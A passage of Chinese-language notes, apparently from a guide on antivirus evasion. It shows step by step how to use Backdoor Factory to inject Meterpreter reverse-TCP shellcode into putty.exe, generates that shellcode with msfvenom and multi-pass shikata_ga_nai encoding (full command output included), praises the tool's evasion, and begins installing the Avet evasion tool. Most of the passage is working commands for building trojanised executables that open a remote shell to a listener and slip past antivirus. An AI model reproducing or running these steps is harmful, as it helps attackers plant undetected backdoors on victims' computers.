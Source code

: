    `user_supplied_shellcode_threaded`：对应的msf：`use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp`自定义shellcode.

5. 生成 payload

   推荐使用的命令。

   ```bash
   ./backdoor.py  -f /root/msf/miansha/putty.exe -s iat_reverse_tcp_stager_threaded -H 192.168.2.131 -P 4444 -J -o  payload.exe
   ```

   然后选择即可。

   但是这里反弹不了 shelll....

6. 使用自定义 shellcode

   ```bash
   root@localhost:~/the-backdoor-factory# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f raw -o shellcode.c
   [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
   [-] No arch selected, selecting arch: x86 from the payload
   Found 1 compatible encoders
   Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
   x86/shikata_ga_nai succeeded with size 368 (iteration=0)
   x86/shikata_ga_nai succeeded with size 395 (iteration=1)
   x86/shikata_ga_nai succeeded with size 422 (iteration=2)
   x86/shikata_ga_nai succeeded with size 449 (iteration=3)
   x86/shikata_ga_nai succeeded with size 476 (iteration=4)
   x86/shikata_ga_nai chosen with final size 476
   Payload size: 476 bytes
   Saved as: shellcode.c
   
   ```

   使用backdoor的`user_supplied_shellcode_threaded`模块加载自定义的shellcode.

   ```bash
   ./backdoor.py -f /root/msf/miansha/putty.exe -s user_supplied_shellcode_threaded -U ./shellcode.c  -o payload6.exe
   ```

   但是又反弹不了shell.....

   利用backdoor-factory使用，用户可以在不破坏原有可执行文件的功能的前提下，在文件的代码裂隙中插入恶意代码Shellcode。当可执行文件被执行后，就可以触发恶意代码。Backdoor Factory不仅提供常用的脚本，还允许嵌入其他工具生成的Shellcode，如Metasploit。

   该工具还有很强大的一些其他功能，比如加私钥证书、CPT等等，虽然目前软件已经不再更新，但免杀效果至今依然不错也能管中窥豹看到它的强悍之处。

#### 3.5 Avet 免杀（31/72）

https://mp.weixin.qq.com/s/EIfqAbMC8HoC6xcZP9SXpA

Avet全称`AntiVirus Evasion Tool`，2017年在blackhat大会上公开演示，可对shellcode，exe和dll等多种载荷进行免杀处理，使用了多种不同的免杀技术，具有较好的免杀效果，据说在blackhat大会上演示时免杀效果震撼全场。

kali 安装

```bash
git clone https://github.com/govolution/avet
./setup.sh
```
